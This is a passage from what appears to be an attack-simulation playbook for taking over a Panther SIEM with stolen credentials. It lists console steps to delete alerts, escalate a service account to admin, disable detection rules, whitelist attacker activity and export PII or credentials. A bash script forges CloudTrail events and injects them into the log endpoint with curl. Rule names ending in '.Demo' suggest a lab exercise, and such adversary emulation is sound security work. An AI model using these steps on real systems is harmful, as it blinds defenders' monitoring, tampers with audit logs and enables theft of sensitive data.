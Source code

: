 ## Phase 3: SIEM Lateral Movement and Control (14:20)

### Panther Console Actions - SIEM Takeover

**In the Panther Console (using extracted credentials):**

1. **Access Alert History:**
   - Navigate to **Monitor > Alerts**
   - Review recent alerts to understand security posture
   - Take screenshots of sensitive alerts before deletion

2. **Escalate SIEM Privileges:**
   - Navigate to **Settings > Users & Roles**
   - If using service account, elevate role permissions
   - Add admin privileges to service account

3. **Additional Rule Modifications:**
   - Navigate back to **Build > Rules**
   - Search for and disable additional high-value rules:
     - `Panther.Bulk.Rule.Modification.Demo`  
     - `AWS.CloudTrail.RootAPIKey.Demo`
     - `AWS.IAM.UserCreatedWithPowerUserAccess.Demo`
   - Modify rule logic to include exceptions for attacker activity

4. **Data Exfiltration from SIEM:**
   - Navigate to **Data > Search**
   - Query for sensitive data patterns
   - Export query results containing PII, credentials, or business data

### Inject False Log Data

```bash
echo "=== Injecting false log data ==="

# Create benign-looking CloudTrail events to normalize activity
FAKE_EVENT='{
    "eventVersion": "1.08",
    "userIdentity": {
        "type": "IAMUser",
        "principalId": "AIDACKCEVSQ6C2EXAMPLE",
        "arn": "arn:aws:iam::123456789012:user/maintenance-user",
        "accountId": "123456789012",
        "userName": "maintenance-user"
    },
    "eventTime": "'$(date -u +"%Y-%m-%dT%H:%M:%SZ")'",
    "eventSource": "iam.amazonaws.com",
    "eventName": "GetUser",
    "sourceIPAddress": "10.0.1.100",
    "userAgent": "aws-cli/2.0.0 Python/3.8.0 Linux/5.4.0-40-generic botocore/2.0.0dev0",
    "requestID": "12345678-1234-1234-1234-123456789012",
    "eventID": "87654321-4321-4321-4321-210987654321",
    "eventType": "AwsApiCall",
    "recipientAccountId": "123456789012"
}'

echo "Injecting false positive events to create noise..."
echo "$FAKE_EVENT" | curl -s -X POST \
    -H "Authorization: Bearer $PANTHER_API_KEY" \
    -H "Content-Type: application/json" \
    -d @- \
    "$PANTHER_ENDPOINT" || echo "Log injection failed (expected in demo)"
```
